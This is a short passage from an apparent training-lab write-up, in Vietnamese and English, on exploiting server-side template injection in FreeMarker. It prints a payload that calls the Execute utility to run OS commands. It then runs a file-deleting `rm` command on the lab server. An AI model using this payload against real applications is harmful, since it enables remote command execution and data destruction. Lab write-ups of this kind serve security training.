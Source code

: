 
--> chắc chắn luôn rồi

now test OS command: `${"freemarker.template.utility.Execute"?new()("id")}`

ok thành công thực hiện OS command

![Alt text](../image/lab3/09.png)

now `rm /home/carlos/morale.txt`

solve the lab

![Alt text](../image/lab3/10.png)

> **Test bằng Active Scan**

![Alt text](../image/lab3/11.png)